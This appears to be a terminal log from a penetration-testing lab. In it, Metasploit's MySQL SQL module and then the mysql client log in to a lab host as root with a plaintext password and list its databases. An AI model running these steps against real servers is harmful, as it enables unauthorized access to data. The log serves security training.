```
msf5 auxiliary(admin/mysql/mysql_enum) > use auxiliary/admin/mysql/mysql_sql
msf5 auxiliary(admin/mysql/mysql_sql) > show options

Module options (auxiliary/admin/mysql/mysql_sql):

   Name      Current Setting   Required  Description
   ----      ---------------   --------  -----------
   PASSWORD                    no        The password for the specified username
   RHOSTS    192.34.86.3       yes       The target address range or CIDR identifier
   RPORT     3306              yes       The target port (TCP)
   SQL       select version()  yes       The SQL to execute.
   USERNAME                    no        The username to authenticate as

msf5 auxiliary(admin/mysql/mysql_sql) > set PASSWORD twinkle
PASSWORD => twinkle
msf5 auxiliary(admin/mysql/mysql_sql) > set USERNAME root
USERNAME => root
msf5 auxiliary(admin/mysql/mysql_sql) > run
[*] Running module against 192.34.86.3

[*] 192.34.86.3:3306 - Sending statement: 'select version()'...
[*] 192.34.86.3:3306 -  | 5.5.61-0ubuntu0.14.04.1 |
[*] Auxiliary module execution completed
msf5 auxiliary(admin/mysql/mysql_sql) > set SQL show databases;
SQL => show databases;
msf5 auxiliary(admin/mysql/mysql_sql) > run
[*] Running module against 192.34.86.3

[*] 192.34.86.3:3306 - Sending statement: 'show databases;'...
[*] 192.34.86.3:3306 -  | information_schema |
[*] 192.34.86.3:3306 -  | mysql |
[*] 192.34.86.3:3306 -  | performance_schema |
[*] 192.34.86.3:3306 -  | upload |
[*] 192.34.86.3:3306 -  | vendors |
[*] 192.34.86.3:3306 -  | videos |
[*] 192.34.86.3:3306 -  | warehouse |
[*] Auxiliary module execution completed

```

```
root@attackdefense:~# mysql -h 192.34.86.3 -u root -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 1023
Server version: 5.5.61-0ubuntu0.14.04.1 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| upload             |
| vendors            |
| videos             |
| warehouse          |
+--------------------+
7 rows in set (0.001 sec)
```